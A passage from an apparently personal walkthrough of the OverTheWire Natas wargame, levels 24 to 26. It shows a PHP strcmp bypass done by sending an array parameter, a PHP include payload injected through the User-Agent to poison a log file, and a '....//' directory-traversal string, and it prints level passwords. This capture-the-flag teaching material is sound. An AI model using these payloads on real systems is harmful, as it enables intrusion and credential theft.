 So I tried this out...altered the query param of passwd to be passwd[]. Resubmitted the request and got a funny response:
```
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23

The credentials for the next level are:

Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

PHP is...special.

## level 25 -> 26
Ok, I'm presented with some weird long quote about God. There's a language drop-down, and good ol' view source code link.
Looks like session ids are back, and lang is a query string. The available options are 'en' and 'de'.
Viewing the source, I see that the code uses the lang param to access a file stored at language/en. It's passes to a function called safeinclude() which strips out `../` and blocks anything containing the substring "natas_webpass", which is where the password is stored.

One thing to note, is that if a directory traversal or password file access is attempted, this is logged in a file at /var/www/natas/natas25/logs/natas25_{session_id}.
The log contains a timestamp, the http user agent, and the message. There is no input validation on the user agent, so maybe this is a place to inject some php.

Using [php include](https://www.php.net/manual/en/function.include.php), I might be able to include the password file in the log.
I'll try this by setting the user agent in the request to 
```
<? include "/etc/natas_webpass/natas26" ?>
````

Also, there's a little bug in the safeinclude function. It detects directory traversal by looking for ../ and then logs the attempt before stripping out the characters. But then it continues to check for the file's existence and include it. So if I use ....// in place of ../ , the "corrected" string will still contain ../ which allows me to traverse.

So I should be able to print the log file (which now hopefully includes the password) by letting the lang param to `....//logs/natas25_{session_id}.log`

My edited request looks like this:
```
GET /?lang=....//logs/natas25_mysess.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <? include "/etc/natas_webpass/natas26" ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Connection: keep-alive
Cookie: PHPSESSID=mysess
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
